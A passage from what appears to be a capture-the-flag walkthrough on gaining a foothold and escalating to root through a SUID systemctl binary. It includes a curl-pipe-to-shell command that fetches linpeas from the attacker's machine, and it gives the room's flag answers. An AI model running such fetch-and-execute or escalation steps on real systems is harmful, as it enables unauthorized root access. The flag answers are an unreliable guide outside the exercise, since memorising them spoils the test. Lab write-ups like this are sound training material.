    ![reverse_shell](https://user-images.githubusercontent.com/87711310/209367552-6d818073-b03e-42aa-9a53-2a0ddfc4b2ea.png)

5. What is the name of the user who manages the webserver?

   > bill

   Since I have access to the webserver, I simply check what users can be found in the /home directory.

   ![ls_cmd](https://user-images.githubusercontent.com/87711310/209367563-3e727aff-f17f-4bba-8360-f0191934d2dd.png)

6. What is the user flag?

   > 8bd7992fbe8a6ad22a63361004cfcedb

   The user flag is found in the user.txt file from the /home/bill directory.

   ![flag](https://user-images.githubusercontent.com/87711310/209367566-dcf01698-b6fd-458f-8ef9-497e8f586b99.png)

### Task 5: Priviledge Escalation

1. In Linux, SUID (**set owner userId upon execution**) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).
   For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

   On the system, search for all SUID files. What file stands out?

   > /bin/systemctl

   Okay, I'm gonna admit, I needed a little help for this one. So, after some research and reading, I found PEASS - Privilege Escalation Awesome Scripts SUITE, download it [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite). The script needs to be put on the vulnerable webserver, to perform the enumeration. I started a Python HTTP server on my own machine, using the `python3 -m http.server 80` command and on the webserver, I transfered the file with curl (`curl <my_tun0_ip>/linpeas.sh | sh`).

   ![peass](https://user-images.githubusercontent.com/87711310/209367568-6b56a6d7-8b65-4885-983e-8b56b132a5b9.png)

   As shown in the above screenshot, the RED/YELLOW highlights are objects that can be used for PE. After waiting for PEASS to finish running, we find /bin/systemctl in the Interesting Files section.

   ![peass1](https://user-images.githubusercontent.com/87711310/209367572-6b7a1614-4807-4b36-8b16-4c6a9629ce42.png)

2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?
   Become root and get the last flag (/root/root.txt)

   > a58ff8579f0a9270368d33a9966c7fd5

   Now we need to use /bin/systemctl to become root. For this, I used [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/). Here's a screenshot of the explanation.

   ![gtfobins](https://user-images.githubusercontent.com/87711310/209367575-af5f0e00-77f4-4e05-bf62-54348601f2a1.png)

   After running the above commands, replacing id with the command we want to run as root (`cat /root/root.txt`), we start the service. The flag is written to /tmp/output.
